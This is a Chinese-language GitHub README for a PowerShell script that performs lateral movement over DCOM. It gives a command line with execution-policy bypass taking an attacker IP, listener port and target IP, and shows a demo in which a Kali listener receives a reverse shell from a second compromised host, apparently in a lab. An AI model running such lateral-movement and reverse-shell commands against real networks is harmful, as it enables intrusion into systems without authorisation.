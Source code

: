 # Dcom-LateralMovement
利用DCOM进行横向移动的脚本

使用方法：

powershell -ep bypass -c ".\dcom.ps1 lhost lport rhost"

举例：

powershell -ep bypass -c ".\dcom.ps1 192.168.45.195 3333 192.168.195.72"


lhost：攻击机IP

lport：攻击机的监听端口

rhost：要横向移动到的目标靶机的IP

演示案例：

我们已经获得192.168.50.74 - client74的控制权限

想要横向移动到192.168.50.72 - web04主机

1. 在kali开启监听

![image](https://github.com/SiennaSkies/Dcom-LateralMovement/assets/105592340/0e7de4a5-9432-4bd6-b367-19907aa35850)
2. 在client74中运行脚本，kali收到来自web04的shell

![image](https://github.com/SiennaSkies/Dcom-LateralMovement/assets/105592340/a20e96ed-d847-42dc-8519-93740c11e556)

